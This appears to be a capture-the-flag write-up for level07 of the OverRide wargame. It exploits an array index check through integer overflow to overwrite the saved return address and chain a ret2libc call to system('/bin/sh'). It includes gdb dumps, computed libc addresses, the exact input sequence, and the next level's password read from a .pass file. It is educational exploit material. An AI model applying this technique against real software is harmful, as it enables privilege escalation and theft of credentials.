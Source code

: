 # level07

This program is a simple number storage system. It stores and reads number in an array `unsigned int data[100]`. But we cannot store a number with `index % 3 == 0`.

## Step 1. Calculate offset to overwrite `eip`
```
level07@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble main" level07
Dump of assembler code for function main:
   0x08048723 <+0>:	push   ebp
   0x08048724 <+1>:	mov    ebp,esp
   0x08048726 <+3>:	push   edi
   0x08048727 <+4>:	push   esi
   0x08048728 <+5>:	push   ebx
   0x08048729 <+6>:	and    esp,0xfffffff0
   0x0804872c <+9>:	sub    esp,0x1d0
[...]
   0x080488e3 <+448>:	lea    eax,[esp+0x24]
   0x080488e7 <+452>:	mov    DWORD PTR [esp],eax
   0x080488ea <+455>:	call   0x8048630 <store_number>
[...]
```
Offset is `0x1d0 - 0x24 + 0x8(padding) + 0x4(ebx) + 0x4(esi) + 0x4(edi) + 0x4(ebp) = 0x1c4(452)`. For a 32 bit integer array, `eip` locates in `data[114]`.

## Step 2. Find a way to set data[114]
```
level07@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble store_number" level07
Dump of assembler code for function store_number:
[...]
   0x08048666 <+54>:	call   0x80485e7 <get_unum>
   0x0804866b <+59>:	mov    DWORD PTR [ebp-0xc],eax
[...]
   0x080486c2 <+146>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080486c5 <+149>:	shl    eax,0x2
   0x080486c8 <+152>:	add    eax,DWORD PTR [ebp+0x8]
   0x080486cb <+155>:	mov    edx,DWORD PTR [ebp-0x10]
   0x080486ce <+158>:	mov    DWORD PTR [eax],edx
   0x080486d0 <+160>:	mov    eax,0x0
   0x080486d5 <+165>:	leave
   0x080486d6 <+166>:	ret
End of assembler dump.
```
We cannot set `data[114]` directly because `114 % 3 == 0`. The disassembly code shows that left shift 2 position is analogous to multiply by 4. So our goal here is to find a number who satisfies the equation `114 << 2 = X << 2`. We can find three numbers `1073741938, 2147483762 and 3221225586` by flipping bit 30 and bit 31, but `3221225586 % 3 == 0`.

## Step 3. Find ret2libc address
```
level07@OverRide:~$ gdb -q level07
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) break main
Breakpoint 1 at 0x8048729
(gdb) run
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048729 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.

0xf7e6aed0 => 4159090384 => system
0xf7e5eb70 => 4159040368 => exit
0xf7f897ec => 4160264172 => "/bin/sh"
```

## Step 4. Input numbers into system
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/$(whoami)/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
